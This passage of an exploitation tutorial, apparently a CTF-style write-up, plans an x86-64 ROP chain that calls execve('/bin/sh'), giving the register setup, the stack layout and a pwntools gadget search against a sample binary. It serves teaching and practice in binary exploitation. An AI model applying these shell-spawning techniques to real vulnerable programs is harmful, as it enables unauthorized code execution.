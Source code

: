 According to the [linux syscall table](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl), we need to set up our registers according to the 64-bit ABI: [Intel](https://software.intel.com/sites/default/files/article/402129/mpx-linux64-abi.pdf). The ABI specifies which registers correspond to which arguments in the syscall.

* rax: 59 = 0x3B (execve)
* rdi: `sh`: pointer to null-terminated string `/bin/sh\x00`
* rsi: `args`: pointer to array [pointer to `sh`, 0]
* rdx: `envp`: we will get away with setting this register to zero

So our desired stack should look something like (line number `n` refers to `$rbp+8n`):

```
+01 0x??? address of rax gadget (saved return address)
+02 0x000000000000003B  # rax
+03 0x??? address of rdi gadget
+04 Pointer to +10
+05 0x??? address of rsi gadget
+06 Pointer to +11
+07 0x??? address of rdx gadget
+08 0x0000000000000000
+09 0x??? address of syscall
+10 0x0068732f6e69622f  # /bin/sh\x00
+11 Pointer to +10  # args[]
+12 0x0000000000000000  # NULL terminate args[]
```

### Go go gadget

#### Main

Let's hunt for our gadgets with `objdump -Mintel -d main | less` and search `/pop\s+rsi`. We can see `pop rsi` at 0x10b5, but it isn't followed by a `ret` so is unlikely to work for us. Instructions to pop the other registers don't appear to exist at all unless we also look more carefully at the machine code. We can use `pwntools` to find such hidden gadgets e.g. searching for `pop rdi`:

```
>>> from pwn import *
>>> rop_main = ROP(ELF("main"))
[*] '/blah/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 14 cached gadgets for 'main'
>>> [g for g in rop_main.search_iter(regs=["rdi"])]
[Gadget(0x188b, ['pop rdi', 'ret'], ['rdi'], 0x8)]
```

This finds a gadget at address 0x188b which will let us set the `rdi` register, and causes `rsp` to increase by 0x8 before the `ret` (one pop). Gadget 0x188b can't be seen in the `objdump` output:

```
188a: 41 5f  pop    r15
188c: c3     ret
```
